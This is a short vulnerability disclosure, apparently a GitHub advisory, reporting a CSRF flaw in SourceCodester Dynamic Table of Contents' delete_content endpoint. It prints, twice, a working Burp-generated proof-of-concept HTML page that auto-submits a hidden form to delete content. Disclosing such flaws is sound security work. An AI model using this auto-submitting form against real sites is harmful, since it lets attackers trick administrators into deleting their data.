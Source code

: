# Summary
There is a CSRF vulnerability in SourceCodester Dynamic Table of Contents `/ajax-api.php?action=delete_content`.
This vulnerability allows attackers to trick administrators into deleting published content.

# Details
Where the contents are deleted, there is no CSRF protection and a CSRF vulnerability exists:
![image](https://github.com/user-attachments/assets/97787d8a-afd6-4fea-bd12-08f5df7b7be7)

Use burpsuite to intercept the traffic packet:
![image](https://github.com/user-attachments/assets/7c8b4782-47f1-4dd1-8f3d-0fe0b7618415)

Use this PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://d-toc:85/ajax-api.php?action=delete_content" method="POST">
      <input type="hidden" name="id" value="2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![d-toc-CSRF1](https://github.com/user-attachments/assets/f1445bbb-853d-49fe-9152-324ed104cd4d)


# PoC
PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://d-toc:85/ajax-api.php?action=delete_content" method="POST">
      <input type="hidden" name="id" value="2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![d-toc-CSRF1](https://github.com/user-attachments/assets/f1445bbb-853d-49fe-9152-324ed104cd4d)
